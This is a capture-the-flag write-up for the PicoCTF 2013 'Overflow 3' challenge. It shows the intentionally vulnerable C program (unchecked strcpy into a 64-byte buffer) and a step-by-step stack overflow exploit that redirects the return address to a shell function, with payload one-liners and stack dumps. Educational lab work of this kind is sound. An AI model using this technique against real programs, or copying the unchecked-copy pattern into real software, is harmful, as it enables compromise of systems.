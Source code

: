 ## PicoCTF 2013: Overflow 3

**Category:** Binary Exploitation
**Points:** 120
**Description:**

>Stack overflows are the most basic binary exploitation technique, but they
>take a lot of skill to master. If you already know some C, these problems can
>help acquaint you with stacks and binary exploitation in general.

>Problem available on the shell machine in
>/problems/stack_overflow_3_28d8a442fb232c0c , downloadable here with source
>here.

>If you solve the problem you will be able to read the key file by running

>cat /problems/stack_overflow_3_28d8a442fb232c0c/key
>on the PicoCTF shell machine.

>**Hint:** objdump -d is a handy tool for this sort of thing.

## Write-up
Let's look at the source code:

```C
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "dump_stack.h"

/*
 * Goal: Get the program to run this function.
 */
void shell(void) {
    execl("/bin/sh", "sh", NULL);
}

void vuln(char *str) {
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 21, (void **) &str);
}

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: buffer_overflow [str]\n");
        return 1;
    }

    uid_t euid = geteuid();
    setresuid(euid, euid, euid);
    printf("shell function = %p\n", shell);
    vuln(argv[1]);
    return 0;
}
```
Well the code comment makes it fairly plain that we need to call `shell()`

But how? Well let's just put in a bunch of garbage and see what happens:
```
$ ./overflow3-28d8a442fb232c0c $(python -c 'print "A"*64')
shell function = 0x80485f8
Stack dump:
0xffe9fd00: 0xffea0849 (first argument)
0xffe9fcfc: 0x080486bc (saved eip)
0xffe9fcf8: 0xffe9fd28 (saved ebp)
0xffe9fcf4: 0xf7722938
0xffe9fcf0: 0x08048800
0xffe9fcec: 0x41414141
0xffe9fce8: 0x41414141
0xffe9fce4: 0x41414141
0xffe9fce0: 0x41414141
0xffe9fcdc: 0x41414141
0xffe9fcd8: 0x41414141
0xffe9fcd4: 0x41414141
0xffe9fcd0: 0x41414141
0xffe9fccc: 0x41414141
0xffe9fcc8: 0x41414141
0xffe9fcc4: 0x41414141
0xffe9fcc0: 0x41414141
0xffe9fcbc: 0x41414141
0xffe9fcb8: 0x41414141
0xffe9fcb4: 0x41414141
0xffe9fcb0: 0x41414141 (beginning of buffer)
$ strace ./overflow3-28d8a442fb232c0c $(python -c 'print "A"*76 +"BBBB"')
...
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
```
Now you'll notice that the program segfaults at 0x42424242, meaning we have
control over some part of the program. If you look at the prior stackdump,
you'll see a "saved eip." This is called a return address, and it tells the
code where to jump back to after the current function returns. In this case, it
goes back to 0x080486bc in `main()`. However, in the second run, using strace
reveals that we can overwrite that address. Maybe we can supply our own?

Let's use objdump like the hint says:
```
$ objdump -d overflow3-28d8a442fb232c0c | grep ">:"
0804837c <_init>:
080483b0 <setresuid@plt-0x10>:
080483c0 <setresuid@plt>:
080483d0 <printf@plt>:
080483e0 <geteuid@plt>:
080483f0 <strcpy@plt>:
08048400 <puts@plt>:
08048410 <__gmon_start__@plt>:
08048420 <__libc_start_main@plt>:
08048430 <putchar@plt>:
08048440 <execl@plt>:
08048450 <_start>:
08048480 <__do_global_dtors_aux>:
080484e0 <frame_dummy>:
08048504 <dump_stack>:
080485f8 <shell>:
0804861c <vuln>:
08048650 <main>:
080486d0 <__libc_csu_init>:
08048740 <__libc_csu_fini>:
08048742 <__i686.get_pc_thunk.bx>:
08048750 <__do_global_ctors_aux>:
0804877c <_fini>:
```

These are all functions in the binary, and their addresses are on the left. If
you look through them, you'll see that the `shell()` function is in there. Now
if you don't know what endianness is, I suggest you look it up. However for our
purposes, it means that the address's bytes are reversed (two hex digits). x86
is little endian, meaning all addresses in future exploits will need this.

Ex: 08 04 85 f8 becomes f8 85 04 08.

Now since we can't print all these characters, we can use a python escape
sequence to supply them. Remember the "B"s from before overwrote eip, so we
will replace those with our address!

```
$ ./overflow3-28d8a442fb232c0c $(python -c 'print "A"*76 +"\xf8\x85\x04\x08"')
shell function = 0x80485f8
Stack dump:
0xfffd4510: 0xfffd5800 (first argument)
0xfffd450c: 0x080485f8 (saved eip)
0xfffd4508: 0x41414141 (saved ebp)
0xfffd4504: 0x41414141
0xfffd4500: 0x41414141
0xfffd44fc: 0x41414141
0xfffd44f8: 0x41414141
0xfffd44f4: 0x41414141
0xfffd44f0: 0x41414141
0xfffd44ec: 0x41414141
0xfffd44e8: 0x41414141
0xfffd44e4: 0x41414141
0xfffd44e0: 0x41414141
0xfffd44dc: 0x41414141
0xfffd44d8: 0x41414141
0xfffd44d4: 0x41414141
0xfffd44d0: 0x41414141
0xfffd44cc: 0x41414141
0xfffd44c8: 0x41414141
0xfffd44c4: 0x41414141
0xfffd44c0: 0x41414141 (beginning of buffer)
$
```
pwn.

## Other write-ups and resources

* none yet
